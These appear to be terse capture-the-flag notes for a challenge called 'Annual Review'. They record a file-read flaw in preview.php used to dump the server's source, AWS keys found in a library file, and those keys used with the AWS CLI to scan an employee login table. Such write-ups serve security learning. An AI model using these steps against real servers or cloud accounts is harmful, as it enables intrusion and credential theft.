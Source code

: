 Annual Review

AWS server
serving files
  -preview.php
    network request file=/var/www/html/guide.md
  -app.php
  -index.php

Are trying to find what the file hierarchy is.
running gobuster didn't work can't ping

requested /preview.php?file=/var/www/html/preview.php got this:
```php
<?php
  require_once('libs/utils.php');

  if (!is_auth())
    redirect('index.php');

  $file = $_GET['file'];
  if (isset($file)) {
    header("Content-Type: text/plain");
    echo get_file($file);
  }
?>
```
previewed libs/utils.php which mentionned libs/dynamo.php
The flag was inside of there: flag-d19650aa911acb7c130aa380601d169d3bd08ab4

---

Part 2 
Need to find HR credentials

Dynamo.php contains AWS key and secret
https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/Using.API.html 

Installed AWS CLI
logged into aws CLI with credentials found in dynamo.php
aws dynamodb scan --table-name "GOD_LoginEmployee"
found flag as password.
